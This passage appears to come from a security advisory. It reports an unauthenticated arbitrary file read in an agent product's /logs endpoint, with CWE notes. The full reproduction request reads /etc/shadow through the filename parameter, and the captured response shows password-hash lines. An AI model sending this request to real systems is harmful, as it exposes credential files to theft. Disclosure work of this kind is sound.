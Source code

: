 ```]
An authenticated attacker can issue commands on the underlying operating system with the privileges of `root`.

#pagebreak()
== Unauthenticated Arbitrary File Read (Linux/Windows) <unauthenticated-arbitrary-fileread>
=== Summary <summary>
The Application is vulnerable to an Unauthenticated Arbitrary File Read. This affects the Agent installed on Linux and Windows alike. The parameter `filename` does not validate the path at all. Thus allowing anyone (authentication is not required) to read arbitrary files.
As the application runs per default with the highest privileges (root/NT\_AUTHORITY SYSTEM), attackers are able to obtain critical files like `/etc/shadow`

=== CWE <cwe>
- #link(
  "https://cwe.mitre.org/data/definitions/22.html"
)[CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')]
This seems to be the best shot for a fitting CWE. However, it is not a "Improper Limitation of a Pathname" through path traversal, but trough missing limitation of a valid path name. So there are no limitations at all.

- #link(
  "https://cwe.mitre.org/data/definitions/306.html"
)[CWE-306: Missing Authentication for Critical Function]
Further the functionality is accessible without authentication. Therefore, CWE-306 is matching as well.

=== Steps to reproduce <steps-to-reproduce>
The vulnerability can be triggered with the following GET request:

#sourcecode(highlighted: (1,))[
```http
GET /logs?filename=%2Fetc%2fshadow HTTP/1.1
Host: 192.168.40.141:5015
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.40.141:5015/agent?context=5815&r=logs&request=dump_usrv_log
Accept-Encoding: gzip, deflate, br
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```]

The response looks like this:

#sourcecode(highlighted: range(7,51))[```http
HTTP/1.1 200 OK
Server: gSOAP/2.8
Content-Type: application/octet-stream
Content-Length: 1164
Connection: close

root:$1$OrR/BoR/$f5AifOBUuuqsMnjEucgDO1:19775:0:99999:7:::
bin:*:18353:0:99999:7:::
```